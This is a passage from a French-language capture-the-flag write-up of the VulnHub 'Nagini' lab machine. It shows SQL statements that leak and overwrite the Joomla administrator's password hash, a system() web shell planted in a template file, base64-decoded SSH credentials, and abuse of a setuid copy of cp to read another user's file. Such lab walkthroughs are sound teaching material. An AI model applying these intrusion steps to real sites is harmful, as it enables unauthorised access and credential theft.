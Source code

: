 Il s'agit du menu affiché à la droite de la page d'accueil. Le texte *Home* est celui le plus visible dans cet enregistrement.  

Je teste simplement la requête suivante :  

```plain
update joomla.joomla_menu set title = 'HiThere' where title = 'Home';
```

Bingo ! J'obtiens la modification espérée sur la page. Pus qu'à y placer le password de l'administrateur :  

```plain
update joomla.joomla_menu set title = (select password from joomla.joomla_users where email = 'site_admin@nagini.hogwarts') where title = 'HiThere';
```

![Altered Joomla database VulnHub Nagini CTF](https://raw.githubusercontent.com/devl00p/blog/master/images/vulnhub/nagini.png)

Le hash semble assez corsé à casser, il faut dire déjà que c'est du *brcrypt*. A la place je récupère le hash présent dans mon conteneur MySQL et dont je connais le clair (*mysuperpassword*) et j'écrase celui du CTF :  

```plain
update joomla.joomla_users set password = '$2y$10$JjZOcbgpLz4wRxFKcULpCeJloGZ06lMMr7C0Rt6WkiQJWnMmiA0Gm' where email = 'site_admin@nagini.hogwarts';
```

Promenade Unix
--------------

Je ne suis pas un expert Joomla mais l'appli permet d'éditer des fichiers du CMS. En fouillant un peu j'ai trouvé le fichier *index.php* du thème par défaut (*protostar* qu'on voit mentionné quand on regarde la source de la page d'accueil) et j'y ait ajouté un classique appel à *system().*  

Ainsi l'URL *http://192.168.2.14/joomla/templates/protostar/?cmd=id* me retourne :  

```plain
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Avec la commande *find* je retrouve un premier horcrux (*/var/www/html/horcrux1.txt*) appartenant à l'utilisateur *ron* :  

```plain
horcrux_{MzogU2x5dGhFcmlOJ3MgTG9jS0VldCBkRXN0cm9ZZUQgYlkgUm9O}
```

Dans le dossier de l'utilisateur *snape* je retrouve des identifiants :  

```plain
-rw-r--r-- 1 snape snape   17 Apr  4  2021 .creds.txt
```

Une fois décodé (c'est du base64) j'obtiens le mot de passe *Love@lilly* qui m'ouvre un accès SSH.  

Le second horcrux est présent dans le dossier de *hermoine*. On ne peut pas le lire faute de permissions mais une copie du binaire *cp* a été laissé avec les droits setuid de l'utilisatrice :  

```plain
snape@Nagini:/home/hermoine$ cat horcrux2.txt 
cat: horcrux2.txt: Permission denied
snape@Nagini:/home/hermoine$ ls -l horcrux2.txt 
-r--r----- 1 hermoine hermoine 75 Apr  4  2021 horcrux2.txt
snape@Nagini:/home/hermoine$ ls -l bin/su_cp
-rwsr-xr-x 1 hermoine hermoine 146880 Apr  4  2021 su_cp
snape@Nagini:/home/hermoine$ ./bin/su_cp horcrux2.txt /tmp/
snape@Nagini:/home/hermoine$ ls -l /tmp/horcrux2.txt 
-r--r----- 1 hermoine snape 75 Nov 27 22:23 /tmp/horcrux2.txt
snape@Nagini:/home/hermoine$ cat /tmp/horcrux2.txt
horcrux_{NDogSGVsZ2EgSHVmZmxlcHVmZidzIEN1cCBkZXN0cm95ZWQgYnkgSGVybWlvbmU=}
```
